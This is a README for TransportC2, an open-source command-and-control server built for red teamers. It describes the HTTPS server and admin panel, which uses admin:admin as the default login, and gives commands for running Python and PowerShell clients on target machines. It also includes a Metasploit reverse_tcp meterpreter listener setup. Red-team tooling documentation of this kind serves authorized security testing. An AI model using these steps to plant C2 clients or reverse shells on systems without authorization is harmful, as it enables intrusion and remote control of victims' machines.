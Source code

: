 # TransportC2

## Summary

![](https://img.shields.io/badge/Status-PoC-orange.svg)&nbsp;&nbsp;
![](https://img.shields.io/badge/Development-Active-green.svg)&nbsp;&nbsp;

TransportC2 is a command and control server with a full GUI that allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 

## Server
Built in Python3, the TransportC2 server was designed for and tested on Debian based Linux Distributions, and has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has clients written in Python 2/3 and PS1. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```
```bash
Import-Module .\client.ps1
Invoke-Client -ServerIP 127.0.0.1 -Port 443"
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:

*Built-in Metasploit payload only available for python client at this time*
![HelpMenu](server/AdminServer/static/img/help.png)

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```

## Screenshots
![Login](server/AdminServer/static/img/login.png)

![CmdPanel](server/AdminServer/static/img/cmd.png)

## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin

Unintended Contributors
* @byt3bl33d3r
